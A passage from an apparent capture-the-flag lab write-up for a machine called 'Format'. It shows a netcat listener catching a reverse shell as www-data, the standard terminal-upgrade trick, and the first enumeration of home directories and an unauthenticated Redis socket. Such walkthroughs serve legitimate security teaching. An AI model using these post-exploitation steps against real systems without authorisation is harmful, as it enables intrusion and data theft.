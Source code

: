 There’s a connection:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.213 41734
    bash: cannot set terminal process group (609): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@format:~/microblog/oxdf/uploads$
    

I’ll upgrade my shell using the [standard
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    www-data@format:~/microblog/oxdf/uploads$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    www-data@format:~/microblog/oxdf/uploads$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@format:~/microblog/oxdf/uploads$
    

## Shell as cooper

### Enumeration

#### Home Directories

There are two home directories on the box, `cooper` and `git`:

    
    
    www-data@format:/home$ ls
    cooper  git
    

www-data is able to enter `cooper`, and `user.txt` is there, but www-data
can’t read it.

#### Redis

I’ll check out the Redis database. `redis-cli` is on the box, and `-s` allows
it to connect to a socket, where there’s no other auth needed:

    
    
    www-data@format:~$ redis-cli -s /var/run/redis/redis.sock 
    redis /var/run/redis/redis.sock>
    

`keys *` will show all the keys:
